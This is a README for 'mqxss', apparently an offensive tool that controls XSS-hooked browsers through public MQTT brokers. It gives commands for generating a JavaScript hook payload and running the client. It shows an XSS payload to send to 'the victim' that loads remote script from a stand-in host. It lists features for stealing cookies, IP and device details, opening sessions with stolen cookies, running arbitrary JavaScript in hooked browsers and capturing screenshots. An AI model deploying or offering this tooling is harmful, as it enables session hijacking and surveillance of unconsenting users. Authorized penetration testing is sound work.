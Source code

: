 # mqxss


## **mqxss acts as a client to communicate with hooked browsers over MQTT**



![Screenshot from 2023-07-03 15-15-35](https://github.com/grampae/mqxss/assets/36344197/d5fae62a-bc5c-4d98-b45e-03cdf541e979)




The benefit to using this over beef or xsshunter is that besides hosting the js payload there is no infra setup, you can use a public broker (however currently uses obfuscation, encryption is in the works).

Hooked browsers will communicate in the MQTT topic on the broker you specify, there are many public/free brokers to test this with.
 

The client utilizes the python paho.mqtt library while the js payload utilizes 'mqttws31.min.js' which it pulls from here 'https://cdnjs.cloudflare.com/ajax/libs/paho-mqtt/1.0.1/mqttws31.min.js'.
 
***
 
## Directions
 
**To generate a JS payload** to hook browsers with set the `-g` flag at runtime along with your broker, port and topic variables.  Doing so will create your payload in the /js/ folder.  

**To run the client** provide your broker, port, and topic as so 
 
`mqxss.py -p 8081 -b some.mqtt.broker.com -t mytopicname`

**To run the client with credentials** provide your broker, port, user name, password and topic as so 

`mqxss.py -p 8081 -b some.mqtt.broker.com -t mytopicname -u username -pw password`
  
**Send your XSS payload** to the victim while the mqxss client is running, ex: `'"><script src=https://example.com/x.js></script>` or something similar, if vulnerable you should get a notification saying the browser has connected with some basic details including cookies etc.
 
![a](https://github.com/grampae/mqxss/assets/36344197/20096c91-2e9e-4302-b5a9-e2edd665d382)

***
 
**Features:**

- **js payload utilizes MQTT QoS 1 and Last Will, mqxss will be notified of disconnects or connects that occur while client is not connected to the broker**
- **generate js payload at runtime to hook browsers with**
- **currently only works with mqtt brokers that use secure websockets**
- **open hooked browser location with captured cookies**
- **when hooked it grabs cookies, ip, device type, user agent**
- **view past hooked (unhooked) browsers**
- **send js to currently hooked browsers and get response if available**
- **pushover notification**
- **screenshot of hooked browser**

**Todo:**

- [ ] Encryption (currently just obfuscated)
- [x] Set user , password  for brokers that require it at runtime
- [x] Generate js payload at runtime to hook browsers with
- [x] Open browser with hooked browser cookies for convenience
